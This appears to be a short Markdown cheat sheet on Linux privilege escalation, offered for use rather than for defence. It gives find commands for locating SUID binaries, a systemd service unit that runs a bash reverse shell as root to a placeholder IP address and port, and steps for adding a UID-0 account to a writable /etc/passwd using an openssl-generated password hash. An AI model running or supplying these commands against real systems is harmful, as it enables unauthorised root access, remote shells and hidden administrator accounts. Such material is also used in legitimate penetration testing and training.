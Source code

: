 # Using files with SUID permission set

## What is SUID?

Set owner User ID, also known as Set user ID or setuid is a special flag in linux permission set.

## Find files with SUID set

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
find / -perm -u=s -type f 2>/dev/null
```

## systemctl

#### Reverse shell to root user

```
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1"
```

## Modifying /etc/passwd with write access

With a user that has write access to `/etc/passwd` file, we can add a new user credentials and gain root user access.

* Generate a new password hash using the username as salt, here we are going to use `new` as a salt and `123` as our password.

```bash
openssl passwd -1 -salt new 123
```

* Next copy the hash generated, change the following entry and  enter it into the `/etc/passwd` file's end. Remember to change new with your selected username.

```
new:<hash>:0:0:root:/root:/bin/bash
```

* Now we use the following command and supply our password to gain root access.

```bash
su new   
```

